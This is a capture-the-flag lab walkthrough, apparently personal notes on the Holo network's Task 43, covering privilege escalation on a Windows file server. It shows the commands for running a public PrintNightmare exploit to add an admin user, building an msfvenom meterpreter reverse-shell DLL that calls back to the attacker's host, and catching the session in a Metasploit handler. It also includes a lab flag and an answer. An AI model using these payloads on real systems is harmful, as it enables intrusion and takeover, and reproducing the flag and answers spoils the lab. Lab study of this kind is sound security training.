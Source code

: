 Now that we have performed all the enumeration and situational awareness, we can move on to privilege escalation. Looking through our enumeration steps, you may notice a unique application connected to a scheduled task on the endpoint. We can attempt a DLL hijack on this application to escalate privileges, then set up persistence on the endpoint.

From the MITRE ATT&CK framework, DLL Hijacking is defined as *"Adversaries may execute their own malicious payloads by hijacking the search order used to load DLLs. Windows systems use a common method to look for required DLLs to load into a program. [[1]](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN) Hijacking DLL loads may be for the purpose of establishing persistence as well as elevating privileges and/or evading restrictions on file execution."* The AT&CK Technique ID is [T1574](https://attack.mitre.org/techniques/T1574/).  

To utilize DLL Hijacking for privilege escalation, we will need to research the application and known vulnerabilities and DLLs and find a DLL not present on the system we have write access to.  

DLL Hijacking can also be used for persistence, as we will see later in the next task. This process is much easier than the previous one as we can use process monitoring tools like ProcMon and ProcessHacker2 to monitor for DLLs and their locations that can take over. The DLL persistence works by running the DLL with the application every time the system restarts or our connection is interrupted. This can be an application we put onto the system or an application already present that we exploit.  

Steps taken to perform DLL hijacking are outlined below.

1. Identify vulnerable application and location
2. Identify applications PID
3. Identify vulnerable DLLs that can be hijacked
4. Use MSFVenom or other payload creation tools to create a malicious DLL
5. Replace the original DLL with the malicious DLL
6. Profit

To begin escalating privileges with DLL Hijacking, we need to identify an application and scheduled task that we can target; this is covered in the previous two tasks. Once we have identified our target, we can use the power of Google to search for potential vulnerable DLLs associated with the application as we can not use tools like ProcMon to make the process easier.  

By googling, `<application> DLL Hijacking`, we can see several articles and blog posts that can lead us in the right direction and research the application for us.

If there is not any research on the application available, say a proprietary application. You can attempt to download the application from the server or find an identical copy on the internet for download that will allow you to search for vulnerable DLLs on your local machine. If you decide to take this approach, skip to the next task and complete the steps with ProcMon before returning to this task and exploiting the vulnerable DLL.


---

# Your job

## Privilege Escalation
Use a new vulnerability called `Print Nightmare` which was released in June 2021.
CVE-2021-34527, or PrintNightmare, is a vulnerability in the Windows Print Spooler that allows for a low priv user to escalate to administrator on a local box or on a remote server. More [info](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).

- Check if the system is likely to be vulnerable.
	- Open the `services.msc` and check if the “Print Spooler” service is running.
	
		![[Task 43 - WERE TAKING OVER THIS DLL!-20241119134107843.webp]]
		It's vulnerable.
	- Check the updates on the system, this can be done via PowerShell:
		`wmic qfe list`
		
		![[Task 43 - WERE TAKING OVER THIS DLL!-20241119134419904.webp]]
		The results show the last update on this system was done on 11/11/2020 which means it is likely to be vulnerable!

- Download the exploit from github to the attcking machine.
	`git clone https://github.com/calebstewart/CVE-2021-1675`

- Copy the `CVE-2021-1675.ps1` file to PC-FILESRV01. 

> [!tip]
> If you are using xfreerdp with /drive:share,/home/kali/tools/ you can copy directly into the macHine.

- Run the script through a PowerShell window:
	PS C:\Users\watamet\Downloads> `Import-Module .\CVE-2021-1675.ps1`

- Run the exploit.
	PS C:\Users\watamet\Downloads> `Invoke-Nightmare -NewUser "abcuser" -NewPassword "Abc1234!"`
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241119140151649.webp]]

> [!success]
> You have an admin user called **abcuser**. It’s useful to note that the password needs to be complex enough to pass the criteria, otherwise the user won’t be added!

- Confirm the user was added.
	PS C:\Users\watamet\Downloads> `net user abcuser`
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241119140539946.webp]]

- Connect into the machine with that user, this can be either via evil-winrm or RDP.
- Go into the Administrators desktop and get the root flag.


---

## Flag after rooting PC-FILESRV01

- Go into the Administrators desktop and get the root's flag.
    
    HOLO{ee7e68a69829e56e1d5b4a73e7ffa5f0}
    
- Submit the user flag on Task 4, question 7.


---

## DLL Hijacking

### Identify vulnerable application and location

Enumerate the system and you'll find  a very interesting application (kavremover.exe) on `C:\Users\watamet\Applications\`, which is unusual path for program.


### Use MSFVenom or other payload creation tools to create a malicious DLL

Now you know the name of DLL that we want to hijack. So all you have to do is place the malicious DLL in that path and wait for victim to execute the application. There are several ways of creating this DLL. For this article we will use msfvenom to create the payload.

> [!warning]
> The application will be detected as a virus by the AntiVirus, so make sure you turn off AV or windows defender.

#### Creating a payload DLL

Kavremover is a 32 bit application, we will create a 32 bit payload dll with msfvenom. The syntax for creating one is:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACHING MACHINE IP> LPORT=4444 -f dll -o kavremoverENU.dll
```

**Explanation**

- **p** stands for payload. We supply the payload as windows/meterpreter/reverse_tcp.
- **LHOST** is the attacker IP. (Your Kali IP)
- **LPORT** is the attacker Port.
- **f** is for format, we choose dll
- **o** is for name of output file, we will use the same name as the one we need to hijack, kavremoverENU.dll.

#### Download the dll

Copy or download the kavremoverENU.dll file to the victim machine `C:\Users\watamet\Applications\` directory.

As you are using a RDP connection with a drive shared, simply copy the file.

### Exploiting the DLL

- On the attacking machine, run `metasploit` to receive sessions from the payload.

```
$ msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <ATTACKING MACHINE IP>
set LPORT 4444
exploit
```

- Start the kavremover application.

	The application didn’t start. That’s because of the malicious DLL, as it didn’t export necessary functions and exited the thread. But on the positive side, check the listener, you got a session.
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241121133518095.webp]]

## Answer the questions

> [!question]
> What is the name of the vulnerable application found on PC-FILESRV01?
> `kavremover`

**Next step:** [[Task 44 - WERE TAKING OVER THIS DLL! Part II]]

